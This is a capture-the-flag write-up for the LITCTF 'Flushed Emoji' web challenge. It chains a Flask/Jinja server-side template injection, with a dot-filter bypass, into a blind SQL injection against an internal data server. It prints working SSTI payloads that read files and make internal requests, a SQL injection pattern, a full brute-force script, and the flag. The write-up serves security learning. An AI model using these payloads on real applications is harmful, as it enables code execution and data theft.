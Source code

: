 # Flushed Emoji
> Flushed emojis are so cool! Learn more about them [here](http://litctf.live:31781/)!
>
> Downloads
> [FlushedEmojis.zip](https://drive.google.com/uc?export=download&id=1agW3a0-T4VsSJwJVTZ-dWSRLE_byxJya)

## Identifying the vulnerabilities
There's a blind SQL injection in `data-server` on line 26. in `main.py`:
```py
cur.execute("SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'");
```
However data server isn't exposed to the Internet so we'll have to find a way to trigger blind SQL injection from `main-app`.
We can't simply use this vulnerability by passing an appropriate payload in `username` or `password` because both of these fields are stripped of any non-alphanumeric characters before being sent to the database.
Fortunately there's a vulnerability in `main.py` on line 27. that can help us:
```py
return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");
```
An unescaped user-provided string (password) is rendered as a template. This is called a SSTI (Server-Side Template Injection) and leads to RCE.

## Flask SSTI basics
In Flask, the easiest way to exploit SSTI is to use `get_flashed_messages` to obtain a reference to `__builtins__` which in turn allows the attacker to execute arbitrary code. It can be done like this:
```jinja
{{ get_flashed_messages.__globals__.__builtins__ }}
```
This won't work in our case since we can't use `.` in the password:
```py
if('.' in password):
  return render_template_string("lmao no way you have . in your password LOL");
```
Fortunately, this can be easily bypassed: in Jinja (template language used in Flask) the following notations are equivalent:
```jinja
{{ a.b }}
{{ a['b'] }}
```
This means we can rewrite the mentioned builtins reference as:
```jinja
{{ get_flashed_messages["__globals__"]["__builtins__"] }}
```
Now we can start exploiting the vulnerability

## Getting the `data-server` ip address
First, we must find the IP address of the data server. To do this, we'll read the contents of the file `main.py` by using `open` function present in Python's `builtins` (note: since the code will in fact be executed by Jinja, we can't use the `__file__` variable to get the file name). This filename however contains a `.` so we'll have to find another way to represent it. We can use Python's builtin `chr` function to construct a string containing `.` from its char code (and therefore avoid using literal `.` character). As we'll be using this character a lot, we can save it to a variable called `dot`:
```py
{% set dot = get_flashed_messages["__globals__"]["__builtins__"]["chr"](46) %}
```
Now passing the following piece of code appended to the above declaration as `password` will return the content of `main.py` file:
```py
{{ get_flashed_messages["__globals__"]["__builtins__"]["open"]("main" + dot + "py")["read"]() }}
```
From the code we can read that the address of the data server is `172.24.0.8:8080`.

## Exploiting the blind SQL injection
Now we can construct a payload that will use the `requests` module to send a request to the data server to exploit the blind SQL injection. It looks like the following:
```jinja
{% set dot = get_flashed_messages["__globals__"]["__builtins__"]["chr"](46) %}{{ get_flashed_messages["__globals__"]["__builtins__"]["__import__"]("requests")["post"]('http://172' + dot + '24' + dot + '0' + dot + '8:8080/runquery', json={"username": "flag", "password": "{SQLI}"})["text"] }}
```
And `SQLI` will take the following form:
```sql
' or password like 'guessed_password%' ESCAPE '$'; --
```
(see the writeup for [../Amy The Hedgehog/README.md](this challenge) for the explanation of blind SQL injection)
The following Python script uses both vulnerabilities to get the flag:
```py
import requests
from string import printable

payload_init = '''{% set dot = get_flashed_messages["__globals__"]["__builtins__"]["chr"](46) %}{{ get_flashed_messages["__globals__"]["__builtins__"]["__import__"]("requests")["post"]('http://172' + dot + '24' + dot + '0' + dot + '8:8080/runquery', json={"username": "flag", "password": "' or password like \''''
payload_tail = '''%' ESCAPE '$'; -- "})["text"] }}'''

flag = 'LITCTF{'

while flag[-1] != '}':
	for c in printable:
		print(f'Trying {flag + c}')
		char = f'${c}' if c in ('%', '_', '$') else c
		r = requests.post(
			'http://litctf.live:31781/',
			data={
				'username': '',
				'password': payload_init + (flag + char).replace('.', '" + dot + "') + payload_tail
			}
		)

		if 'True' in r.text:
			flag += c
			break
	else:
		print('No char found!')
		break

print(flag)
```

## Flag
`LITCTF{flush3d_3m0ji_o.0}`
